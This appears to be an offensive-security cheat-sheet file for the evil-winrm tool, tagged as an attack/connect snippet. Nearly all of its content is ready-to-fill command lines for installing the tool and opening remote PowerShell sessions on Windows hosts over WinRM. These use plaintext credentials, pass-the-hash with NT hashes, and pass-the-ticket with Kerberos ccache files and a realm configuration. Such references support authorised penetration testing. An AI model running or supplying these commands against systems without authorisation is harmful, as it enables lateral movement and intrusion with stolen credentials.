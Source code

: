 # evil-winrm
% windows, remote, winrm, evilwinrm, 5985, 5986
#plateform/linux  #target/remote  #protocol/winrm #port/5985 #port/5986 #cat/ATTACK/CONNECT 

## _desc
```
```

## _repo
```
```

## _doc
```
```

## _install
```
gem install evil-winrm
```

## local account with creds
```bash
evil-winrm -i <ip> -u <user> -p '<password>'
```


## local account with creds (over TLS)
```bash
evil-winrm -i <ip> -u <user> -p '<password>' --ssl -Port 5986
```

## domain account with creds
```bash
(cd /opt/evil-winrm && evil-winrm --log -i <ip> -u '<domain_netbios>\<user>' -p '<password>' -s /opt/evil-winrm/ps -e /opt/evil-winrm/bin) 
```

## local account pth
```bash
(cd /opt/evil-winrm && evil-winrm --log -i <ip> -u <user> -H <nt_hash> -s /opt/evil-winrm/ps -e /opt/evil-winrm/bin)
```

## domain account pth
```bash
(cd /opt/evil-winrm && evil-winrm --log -i <ip> -u '<domain_netbios>\<user>' -H <nt_hash> -s /opt/evil-winrm/ps -e /opt/evil-winrm/bin)
```

## pass the ticket
add realm /etc/krb5.conf
[libdefaults]
        rdns=false
[realms]
CONTOSO.COM = {
             kdc = fooserver.contoso.com
 }
```bash
(cd /opt/evil-winrm && export KRB5CCNAME=<ccache> && evil-winrm --log -i <target_fqdn>  --realm <REALM_FQDN> -s /opt/evil-winrm/ps -e /opt/evil-winrm/bin)
```